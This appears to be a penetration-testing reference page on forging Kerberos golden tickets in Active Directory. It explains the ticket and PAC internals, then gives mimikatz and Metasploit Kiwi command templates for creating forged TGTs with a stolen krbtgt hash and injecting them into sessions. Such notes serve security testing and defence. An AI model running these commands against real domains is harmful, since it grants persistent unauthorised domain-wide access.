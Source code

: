 # Active Directory - Kerberos Golden Tickets

### Overview

`Kerberos` is an authentication protocol, used within Active Directory that
rely on the use of tickets to identify users and grant access to domain
ressources. `Kerberos` implements two type of tickets, issued by two distinct
services of the `Key Distribution Center (KDC)`:
  - `Ticket-Granting Ticket (TGT)`, obtained from the `Authentication Service
  (AS)`
  - `service tickets`, obtained from the `Ticket-Granting Service (TGS)`.

A `TGT` is generally requested by an user through a `KRB_AS_REQ` request to the
`AS` of the `KDC` during the login process on a Windows system integrated to an
Active Directory domain. `TGTs` are encrypted using one of the secrets
(`RC4 key`, whose value is identical to the `NTLM` hash, or `AES 128/256 bits
keys`) of the `krbtgt` account of the domain. After reception of the `TGT`,
in a `KRB_AS_REP` response from the `KDC`, `TGT` are stored in memory by the
client in the `Security Support Provider (SSP) Kerberos` of the `Local Security
Authority Server Service (LSASS)` process.

An user authentication data is stored encrypted (using one of the secrets of
the `krbtgt` account) in the `Privilege Attribute Certificate (PAC)` of the
`TGT` and includes:
  - The `Domain SID` and `User RID`, which combination form the user's current
  `Security Identifier (SID)`
  - the user's `SIDs` kept in its `SIDHistory` attribute
  - The `GROUP_MEMBERSHIP_ARRAY` which contains the user's group memberships,
  in the form of the groups `Relative ID (RID)`.

Whenever generating a `service ticket`, the `TGT`'s `PAC` will be decrypted by
the `KDC`, signed using both one of the secrets of the `krbtgt` account
(`KDC Signature`) and of the targeted service account (`Server Signature`), and
ultimately encrypted using one of the secrets the targeted service account.

`Golden tickets` are `TGT` forged with arbitrary authentication data. Indeed,
the specified username, groups `RID` and `SIDs` will be added to the forged
ticket `PAC`. The `golden ticket` can be injected in the current user session
and used to directly request `service tickets` from the `TGS`.

To generate a `golden ticket`, the following prerequisites are needed:
  - The fully qualified domain name and the `SID` of the targeted domain.
  - One of the secrets of the targeted domain `krbtgt` account. The `krbtgt`
  `RC4` key, corresponding to the `NTLM hash` of the `krbtgt` password, as
  well as the `AES 128/256 bits` keys can be used.

Note that while the user account specified for the `golden ticket` must be a
member of the targeted domain, the arbitrary SIDs added in the SID history of
the forged ticket (`ExtraSids` field of the `PAC`) can come from external
domains or forests (for which trusts relationships are configured).

### Golden tickets generation

###### mimikatz

The `mimikatz` `kerberos::golden` module can be used to generate
`golden tickets`:

```
# Powershell RATS
Get-ADDomain | Ft DNSRoot, DomainSID

mimikatz # kerberos::golden /user:<USERNAME> /domain:<DOMAIN_FQDN> /sid:<DOMAIN_SID> </rc4:<KRBTGT_NTLM> | /aes128:<KRBTGT_AES128> | /aes256:<KRBTGT_AES256>> [/groups:<RID | RID_LIST>] [/sids:<EXTRA_SID | EXTRA_SIDS_LIST>]
```

###### mimikatz with Metasploit

`mimikatz` 2.0 is available in a `meterpreter` shell as the `Kiwi` extension.

To following command can be used to load the extension in memory on a
`meterpreter` shell: `use kiwi`

Once the module has been loaded, the `golden_ticket_create` command can be
used to create a golden ticket:

```
golden_ticket_create -d '<FQDN_DOMAIN>' -s '<SID_DOMAIN>' -k '<KRBTGT_HASH>' -u '<USERNAME>' -t '<FULL_SAVE_PATH>'

Usage: golden_ticket_create [options]
OPTIONS:
    -d <opt>  FQDN of the target domain (required)
    -g <opt>  Comma-separated list of group identifiers to include (eg: 501,502)
    -h        Help banner
    -i <opt>  ID of the user to associate the ticket with
    -k <opt>  krbtgt domain user NTLM hash
    -s <opt>  SID of the domain
    -t <opt>  Local path of the file to store the ticket in (required)
    -u <opt>  Name of the user to create the ticket for (required)
```

Tickets can be loaded/purged using the `kerberos_ticket_use` and
`kerberos_ticket_purge` commands:

```
kerberos_ticket_use <FULL_SAVE_PATH>
kerberos_ticket_purge
```

### Golden tickets usage

On Windows, `golden tickets` generated using `mimikatz` will be automatically
injected in memory if the `/ptt` option is specified. Otherwise, an exported
`golden ticket` can be injected in memory using `mimikatz.exe "kerberos::ptt
<TICKET_FILE_PATH>`.

The `klist` Windows built-in utility can then be used to list the currently
cached `Kerberos` tickets for the present user session:

```
CMD> klist

Cached Tickets: (X)
[...]
```

On Linux, a `golden ticket` generated using `ticketer.py` can be exported in
the `KRB5CCNAME` environment variable for futher use through tools supporting
the `Kerberos` protocol, such as others `impacket` Python utilities:

```
export KRB5CCNAME=<TICKET_CCACHE_FILE_PATH>
```

On a `meterpreter` shell, the `kiwi` `kerberos_ticket_list` command can be
used instead:

```
kerberos_ticket_list
```
